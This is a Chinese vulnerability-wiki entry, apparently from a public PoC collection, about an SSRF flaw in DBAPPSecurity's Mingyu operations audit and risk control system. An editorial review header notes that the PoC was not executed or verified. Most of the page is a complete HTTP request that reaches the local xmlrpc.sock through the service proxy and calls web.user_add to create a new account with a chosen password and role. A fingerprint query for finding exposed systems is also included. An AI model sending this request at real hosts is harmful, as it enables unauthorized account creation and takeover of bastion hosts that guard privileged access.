


# 安恒 明御运维审计与风险控制系统 xmlrpc.sock 任意用户添加漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：安恒DASUSM明御运维审计
- 本文讨论：service代理unix xmlrpc.sock web.user_add
- 版本、权限与配置前提：含DBAPPUSM Cookie，roleid102，版本未知
- 资料类型：SSRF至本地XML-RPC账户创建；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 含会话且未解释是否必要，不能据同入口无Cookie其他稿直接确定匿名
- XML正文Content-Type为form，实际兼容解析条件需说明；版本缺失
- 与627/609/610同原语但角色102/101差异应保留
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- 样例会话、令牌或共享秘密已按具体值遮罩中段并保留首尾；不能直接用于请求。公开默认/测试凭据与算法常量不因长得像密码而改写；其用途仍须按原文说明判断

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- SSRF代理根因、Cookie与角色权限、响应待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

安恒 明御运维审计与风险控制系统 xmlrpc.sock 接口存在SSRF漏洞，通过漏洞可以添加任意用户控制堡垒机

## 漏洞影响

安恒 明御运维审计与风险控制系统

## 网络测绘

```
"明御运维审计与风险控制系统"
```

## 漏洞复现

登陆页面




验证POC

```http
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: 
Cookie: LANG=zh; DBAPPUSM=ee4**********************************************************fd3
Content-Length: 1117
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>  
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.0.0.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>1qaz@3edC12345</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>102</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
